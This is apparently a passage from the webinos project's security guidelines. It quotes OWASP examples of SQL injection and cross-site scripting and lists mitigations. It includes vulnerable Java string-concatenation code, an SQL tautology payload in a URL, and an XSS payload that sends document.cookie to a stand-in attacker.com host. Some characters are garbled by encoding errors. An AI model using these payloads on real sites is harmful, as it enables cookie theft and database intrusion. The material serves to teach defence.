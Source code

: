 An example of this threat is illustrated below:

<pre>
String query = "SELECT * FROM accounts WHERE custID=‘" + request.getParameter("id") *"’";
</pre>

The attacker modifies the â€˜idâ€™ parameter in their browser

<pre>
http://example.com/app/accountView?id=’ or ’1’=’1
</pre>

OWASP proposes the following mitigations for dealing with this threat.

# Use a safe API which avoids the use of the interpreter entirely or provides a parametrized interface.
# Carefully escape special characters using the specific escape syntax for that interpreter.
# Positive or â€œwhite listâ€ input validation with appropriate "canonicalization".

Based on these proposals, the following webinos countermeasures are proposed.

# Secure code best practices should be adopted by webinos developers. See [[Deliverable_Guidelines|Further Security and Privacy Guidelines]] section for more information.
# webinos applications should be tested with defined patterns of improperly formatted input data.


h4. Cross-Site Scripting (XSS)

This occurs whenever an application takes untrusted data and sends them to a web browser without proper validation and/or escaping

An example of this threat is illustrated below:

<pre>
(String) page*= "<input name=’creditcard’ type=‘TEXTâ€˜ value=’" + request.getParameter("CC") + "‘>";
</pre>

The attacker modifies the â€˜CCâ€™ parameter in their browser to:

<pre>
’><script>document.location=‘http://www.attacker.com/cgi-bin/cookie.cgi?foo=’+document.cookie</script>‘
</pre>

OWASP proposes the following mitigations for dealing with this threat/
